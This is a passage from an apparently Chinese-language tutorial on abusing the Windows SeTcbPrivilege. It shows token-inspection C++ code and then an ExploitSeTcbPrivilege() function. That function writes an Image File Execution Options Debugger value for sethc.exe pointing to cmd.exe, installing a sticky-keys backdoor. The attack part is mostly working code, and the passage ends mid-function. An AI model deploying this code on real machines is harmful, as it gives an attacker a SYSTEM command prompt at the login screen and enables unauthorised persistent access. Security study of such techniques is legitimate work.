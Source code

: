 ```c++

		wprintf(L"\n > Token Integrity Level: \n");
		pSid = pTokenIntegrityLevel->Label.Sid;
		if (!ConvertSidToStringSidW(pSid, &lpIntegritySid)) {
			wprintf(L"[-] ConvertSidToStringSidW Error: [%u].\n", GetLastError());
			goto Clear;
		}
		wprintf(L"	 %ws\n", lpIntegritySid);

		status = TRUE;
		goto Clear;
	}
Clear:
	if (pTokenStatistics != NULL)
		LocalFree(pTokenStatistics);
	if (pTokenGroups != NULL)
		LocalFree(pTokenGroups);

	return status;

}
```

### ExploitSeTcbPrivilege

最后，由于已经获取了 SYSTEM 权限，则调用 `ExploitSeTcbPrivilege()` 函数将通过 `RegCreateKeyExW()` API 在 `Image File Execution Options` 注册表下创建一个子项，然后用 `RegSetValueExW()` API 为粘滞键（sethc.exe）设置 Debugger 键实现映像劫持，实现粘滞键后门，如下所示。

```c++
void ExploitSeTcbPrivilege()
{
	DWORD lResult;
	HKEY hKey;

	LPCWSTR lpCommand = L"\"C:\\Windows\\System32\\cmd.exe\"";

	// Creates the specified registry key.
	lResult = RegCreateKeyExW(
		HKEY_LOCAL_MACHINE,
		L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe",
		0,
		NULL,
		NULL,
		KEY_SET_VALUE,
		NULL,
		&hKey,
		NULL
	);
	if (lResult != ERROR_SUCCESS)
	{
		wprintf(L"[-] RegCreateKeyExW Error: [%u].\n", lResult);
		return;
	}
	// Sets the data and type of a specified value under a registry key.
	lResult = RegSetValueExW(hKey, L"Debugger", 0, REG_SZ, (const BYTE*)lpCommand, (wcslen(lpCommand) + 1) * sizeof(WCHAR));
	if (lResult != ERROR_SUCCESS)
	{
		wprintf(L"[-] RegSetValueExW Error: [%u].\n", lResult);
		return;
	}
```